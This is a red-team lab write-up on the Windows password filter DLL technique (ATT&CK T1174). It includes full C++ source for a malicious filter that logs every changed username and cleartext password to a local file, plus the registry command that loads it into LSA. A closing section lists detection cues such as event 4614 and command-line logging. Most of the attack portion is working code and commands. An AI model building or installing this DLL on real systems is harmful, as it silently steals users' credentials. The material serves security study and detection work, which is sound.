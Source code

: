 ```yaml
---
description: Credential Access
---
```


# T1174: Password Filter DLL

This lab explores a native OS notification of when the user account password gets changed, which is responsible for validating it. That means, the password can be intercepted..

## Execution

Password filters are registered in registry and we can see them here:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg query "hklm\system\currentcontrolset\control\lsa" /v "notification packages"
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Or via regedit:

![](../.gitbook/assets/password-filter-regedit.png)

Building an evil filter DLL based on a great [article](http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html) by mubix. He has also kindly provided the code to use, which I modified slightly to make sure that the critical DLL functions were exported in order for this technique to work since mubix's code did not work for me out of the box. I also had to change the logging statements in order to rectify a couple of compiler issues:

```cpp
#include "stdafx.h"
#include <windows.h>
#include <stdio.h>
#include <WinInet.h>
#include <ntsecapi.h>
#include <stdio.h>
#include <iostream>
#include <fstream>
using namespace std;

void writeToLog(const char* szString)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	if (NULL == pFile)
	{
		return;
	}
	fprintf(pFile, "%s\r\n", szString);
	fclose(pFile);
	return;

}

extern "C" __declspec(dllexport) BOOLEAN __stdcall InitializeChangeNotify(void)
{
	OutputDebugString(L"InitializeChangeNotify");
	writeToLog("InitializeChangeNotify()");
	return TRUE;
}

extern "C" __declspec(dllexport) BOOLEAN __stdcall PasswordFilter(
	PUNICODE_STRING AccountName,
	PUNICODE_STRING FullName,
	PUNICODE_STRING Password,
	BOOLEAN SetOperation)
{
	OutputDebugString(L"PasswordFilter");
	return TRUE;
}

extern "C" __declspec(dllexport) NTSTATUS __stdcall PasswordChangeNotify(
	PUNICODE_STRING UserName,
	ULONG RelativeId,
	PUNICODE_STRING NewPassword)
{
	FILE *pFile;
	fopen_s(&pFile, "c:\\logFile.txt", "a+");

	OutputDebugString(L"PasswordChangeNotify");
	if (NULL == pFile)
	{
		return true;
	}
	fprintf(pFile, "%ws:%ws\r\n", UserName->Buffer, NewPassword->Buffer);
	fclose(pFile);
	return 0;
}
```

{% file src="../.gitbook/assets/evilpwfilter.dll" caption="Password Filter DLL" %}

Injecting the evil password filter into the victims system:

{% code-tabs %}
{% code-tabs-item title="attacker@victim" %}
```csharp
reg add "hklm\system\currentcontrolset\control\lsa" /v "notification packages" /d scecli\0evilpwfilter /t reg_multi_sz

Value notification packages exists, overwrite(Yes/No)? yes
The operation completed successfully.
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../.gitbook/assets/password-filter-updating-registry.png)

Testing password changes after the reboot - note how the password changes are getting logged:

![](../.gitbook/assets/password-filter-filter-working.png)

## Observations

Windows event `4614` notifies about new packages loaded by the SAM:

![](../.gitbook/assets/password-filter-log1.png)

Logging command line can also help in detecting this activity:

![](../.gitbook/assets/password-filter-cmdline.png)

Maybe it is worth checking any new DLLs dropped to `%systemroot%\system32` for exported `PasswordChangeNotify` function?

![](../.gitbook/assets/password-filter.png)

{% embed data="{\"url\":\"http://carnal0wnage.attackresearch.com/2013/09/stealing-passwords-every-time-they.html\",\"type\":\"link\",\"title\":\"Stealing passwords every time they change\",\"description\":\"Password Filters  \[0\] are a way for organizations and governments to enforce stricter password requirements on Windows Accounts than those a...\",\"icon\":{\"type\":\"icon\",\"url\":\"http://carnal0wnage.attackresearch.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"http://4.bp.blogspot.com/-mQpGY-r4r-M/Ui96UJQH3dI/AAAAAAAADic/IFTyH90xM\_8/s640/Screen+Shot+2013-09-10+at+3.59.11+PM.png\",\"width\":640,\"height\":148,\"aspectRatio\":0.23125}}" %}

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1174\",\"type\":\"link\",\"title\":\"Password Filter DLL - ATT&CK for Enterprise\"}" %}


